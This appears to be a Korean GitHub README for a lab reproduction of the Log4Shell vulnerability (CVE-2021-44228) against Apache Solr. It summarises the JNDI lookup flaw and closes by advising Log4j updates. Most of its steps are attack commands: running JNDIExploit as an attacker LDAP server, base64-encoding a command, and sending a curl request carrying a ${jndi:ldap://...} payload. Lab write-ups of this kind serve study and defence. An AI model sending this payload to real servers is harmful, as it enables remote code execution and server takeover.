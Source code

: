 # CVE-2021-44228

> [강성원 (@rivercastleone)](https://github.com/rivercastleone)

<br/>

### 요약

-   Log4j는 다양한 pattern을 지원, 그 중 JNDI Lookup pattern을 공격자가 삽입하게 되면 Log4j가 JNDI를 통해 LDAP 서버에 접속하여 객체를 참조하게 됨
    공격자는 이 기능을 이용해서 공격자의 서버로 악성 자바 객체를 다운받게 하여 이 코드를 이용해서 서버를 탈취

![](exploit.png)

-   JNDI를 사용하여 LDAP 과 같은 디렉터리 서비스로부터 악성 URL을 반환한다. 여기서 `ldap://example.com/a` 은 LDAP 서버의 주소를 나타낸다

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
    ![](server.png)
-   서버가 시작 된 후 `http://your-ip:8983/` Apache의 관리 포털을 찾아봄
    ![](web.png)
-   로그에서 params 필드가 있음을 확인
    ![](log.png)
-   `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-ip -p 8888`를 호출하여 공격자 LDAP 서버 및 HTTP 서버 구축
-   `echo -n 'base_encoding_command' | base64` 를 호출하여 실행 시킬 명령어를 인코딩한다 ex) ` echo -n 'touch /tmp/success' | base64`
-   `curl 'http://your-ip:8983/solr/admin/cores?asdf=$\{jndi:ldap://your-ip:1389/Basic/Command/Base64/base_encoding_command\}'` 를 호출하여 공격자는 JNDI 조회를 통해 악성 서버에 연결하게 됨
    ![](attack.png)

<br/>

### 결과

![](result.png)
![](result2.png)
<br/>

### 정리

-   이 취약점은 로그 이벤트 데이터를 삽입하거나 악의적인 코드를 실행할 수 있는 취약점으로, 악용될 경우 시스템의 안정성과 보안에 심각한 위협을 초래할 수 있음. 안전한 운영을 위해 주기적으로 Log4j 라이브러리를 최신 버전으로 업데이트를 하여 취약점을 보완하는 것이 중요함
